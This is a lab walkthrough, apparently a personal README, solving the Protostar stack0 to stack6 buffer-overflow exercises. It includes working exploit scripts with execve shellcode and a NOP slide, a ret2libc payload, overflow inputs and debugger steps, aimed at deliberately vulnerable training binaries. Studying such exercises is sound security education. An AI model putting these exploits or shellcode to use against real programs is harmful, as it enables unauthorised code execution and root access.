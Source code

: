 ##Stack0
from disassemble we notice that

```
lea eax, dword [local_1ch]
...
test eax, eax
je 0x8048427
```

so `modified` is stored as `eax` in stack
and we need try to overwrite this `eax`
as the address of `eax` is just after `buffer` in stack
so we just need input a string like `"A" * 64`

##Stack1
just like `stack0` just this time we need change modified to `0x61626364` which is `dcba` 
so the input is `'a'*64+'dcba'`

##Stack2
same as before just need set environment variable `GREENIE` with hex`0x0a0d0a0d`
so `export GREENIE=$'A..(64)\x0a\x0d\x0a\x0d'` this `$` is important here

##Stack3
still easy, we want the `win` function be called, which just need rewrite the `fp`
so use `gdb` to get the address of `win`(or just use r2 haha which I used)
```
> aaaa
> afl
```
then we get the `win` address is `0x08048424`
so just `print -c "print 'A'*64 + '\x24\x84\x04\x08'" | ./stack3`

##Stack4
we need overflow and change the EIP now
using `gdb-peda` we know that overflow to EIP need 76 chars
`python -c "print 'A' * 76 + '\xf4\x83\x04\x08" | ./stack4`

##Stack5
same as stack4, just we need inject shellcode this time
overflow to EIP need 76 chars

ok I tried inject shellcode in buffer and in the modified eip address all didn't work for me
this one is really tricky
then I run it in root mode `username=root, password=godmode` btw I do love this password! and turn on the `core dump`
`ulimit -c unilimited`
`echo "/tmp/core.%t" > /proc/sys/kernal/core_pattern`
in case of that the real stack address while overflow happened might be different
and well this time my code was sorta hmm work, as no error, but also no shell!!!

so I checked the Video from `Liveoverflow` then I get some idea from it(from sploier haha)
* use lots and lots `NOP` to deal with the stack keep changing issue, well I tried to use `ROP` to deal this before, BUT sadly it didn't call `system`!!! Well on the other side finally I understand why `NOP` is so important!
* and run exploit like this `(python exploit.py; cat) | ./stack5`. yes the `cat` is the key, as it is like this, `stack5` expect an input and so we give it `bash` as input then the `pipe` die, and OVER haha, so we need a cat here

OK seems perfect, I shall go now
and YES it works!

ok here is the code
```
exploit.py

import struct

junk = "A" * 76
eip = struct.pack('I', 0xbffff81c + 30)
nopslide = "\x90" * 100
payload = "\x31\xc0\x50\x68\x2f\x2f\x73"
payload += "\x68\x68\x2f\x62\x69\x6e\x89"
payload += "\xe3\x89\xc1\x89\xc2\xb0\x0b"
payload += "\xcd\x80\x31\xc0\x40\xcd\x80"

print junk+eip+nopslide+payload
```

`(python exploit.py ; cat) | /opt/protostar/bin/stack5`
and there is the root shell!

##Stack6

haha took some time to get what's this challenge
so if I change the `ret` address to somewhere in stack(`0xbf000000`) it will exit.
thus I need to overflow it somewhere else such as `'/bin/sh'` in system
that's why the hint mentioned ret2libc

```
>(gdb) print system
0xb7ecffb0 <__libc_system>
>(gdb) print __libc_start_main
0xb7eadb90 <__libc_start_main>
>(gdb) find 0xb7eadb90, +2200000, "/bin/sh"
0xb7fba23f
```
but I used these information as payload (junk + systemsaddr + 0xdeadbeef + binaddr) and get `Segmentation fault`
then I find out this `/bin/sh` address is just FAKE, well using `x/s` on it it is not at bash all

so I am thinking, I should write a `/bin/sh` in somewhere like `.bss`

`readelf -S stack6`
I think we can write in `.bss` `.data` `.text` there are more space in `.text`


```
0x8048577 : pop edi ; pop ebp; ret
```
geez no good `mov;ret`

ok if the `/bin/sh` is fake, then let's find out the real one

`>(gdb) info proc map`
where we get that address of lib is `0xb7e97000`

`ldd stack6`
which lib it refered
`strings -a -t x /lib/libc.so.6 | grep "/bin/sh"`
`11f3bf /bin/sh`

how to debug this
```
>(gdb) r
input path please: ^C
>(gdb) x/s 0xb7e97000 + 0x11f3bf
>0xb7fb63bf: "/bin/sh"
```

so this code works
```
import struct

junk = "A" * 80
sysaddr = struct.pack("I", 0xb7ecffb0)
retaddr = struct.pack("I", 0xdeadbeef)
binaddr = struct.pack("I", 0xb7fb63bf)

print junk + sysaddr + retaddr + binaddr
```

`(python exploit.py;cat) | ./stack6`

but I tried payload like `"A" * 80 + retaddr + oxdeafbeef + shelladdr + shellcode` seems works in gdb mode not keep return `cat: write error: Broken pipe` pff
